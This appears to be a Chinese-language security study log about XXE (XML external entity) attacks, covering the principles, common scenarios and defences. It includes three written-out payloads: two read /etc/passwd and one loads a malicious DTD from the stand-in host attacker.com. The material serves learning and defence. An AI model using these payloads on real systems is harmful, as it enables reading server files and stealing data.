 710日志
[toc]
## 学习内容:
- 学习了XML的基本语法和结构，了解了XML文档的创建和解析方式。
- 深入研究了XXE攻击的原理和漏洞利用方式，了解了如何在XML文档中引入外部实体并进行攻击。
- 研究了常见的XXE漏洞场景，包括文件上传功能、文档处理和Web服务等。
- 学习了防御XXE攻击的技术，包括禁用实体解析、限制外部实体访问和使用安全解析器等防御机制。

## 实践和总结:
- 搭建了自己的实验环境，进行了XXE攻击的实践和演练。尝试了不同的攻击向量和Payload，观察到了攻击的效果和结果。

以下是一些示例Payload和思路：

### 1. External Entity 引用文件:
   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```
   - Payload思路: 引入外部实体xxe，并将其值设置为`file:///etc/passwd`，以读取服务器上的`/etc/passwd`文件内容。
   - 攻击效果: 获取`/etc/passwd`文件内容。

### 2. External Entity 引用远程资源:
   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "http://attacker.com/malicious.dtd">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```
   - Payload思路: 引入外部实体xxe，并将其值设置为远程恶意DTD文件的URL，攻击者可通过恶意DTD文件获得用户敏感信息或进行其他攻击。
   - 攻击效果: 攻击者可以获取用户敏感信息或执行其他恶意操作。

### 3. Parameter Entity 在DTD中定义:
   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
   <!ENTITY % xxe SYSTEM "file:///etc/passwd">
   %xxe;
   ]>
   <root>
     <data>XXE Attack</data>
   </root>
   ```
   - Payload思路: 在DTD中定义参数实体xxe，并将其值设置为`file:///etc/passwd`，以读取服务器上的`/etc/passwd`文件内容。
   - 攻击效果: 获取`/etc/passwd`文件内容。
